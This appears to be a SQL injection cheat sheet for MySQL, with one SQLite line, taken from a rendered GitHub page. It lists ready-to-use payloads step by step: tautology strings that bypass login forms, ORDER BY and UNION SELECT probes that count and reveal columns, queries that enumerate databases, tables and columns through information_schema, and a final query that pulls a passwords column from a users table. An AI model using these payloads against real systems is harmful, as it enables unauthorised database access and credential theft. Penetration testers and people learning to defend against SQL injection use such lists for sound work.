 ### MYSQL

```
#########
MYSQL
#########

# Access (using null characters)
' OR '1'='1' %00
' OR '1'='1' %16


   
# 1. Bypass a form      
1' OR '1'='1';#
' OR '1'='1';#
1' OR '1'='1';-- - 
' OR '1'='1';-- -  


# 2. Number of columns (UNION attack)
1' OR '1'='1' order by 1;#
1' OR '1'='1' order by 2;#
1' OR '1'='1' order by 3;#
...
# Do this until you get an error message and then you will know the number of columns
# Another method to see the number of columns. 
' OR '1'='1' order by 1;-- -   

# 3. Get which column is being displayed. For instance, when we know we have 6 columns:
1' OR '1'='1' UNION SELECT 1,2,3,4,5,6;# 

# 4. Get names of all databases 
1' OR '1'='1' UNION SELECT null,table_schema,null,null,null,null,null FROM information_schema.tables;#
# 4. Get names of all databases in SQLite (name and schema of the tables stored in the database).
a' or '1'='1' union select tbl_name,2,3,4,5 from sqlite_master --


# 5. Get names of all tables from the selected database
1' OR '1'='1' UNION SELECT null,table_name,null,null,null,null FROM information_schema.tables;# 


# 6. Get the name of all columns of a selected table from a selected database
1' OR '1'='1' UNION SELECT null,column_name,null,null,null,null FROM information_schema.columns WHERE table_name='users';#


# 7. Get the value of a selected column (for instance, password)
1' OR '1'='1' UNION SELECT null,passwords,null,null,null,null FROM users;#

1' OR '1'='1' UNION SELECT null,passwords,null,null,null,null FROM <databaseName.tableName>;#
```
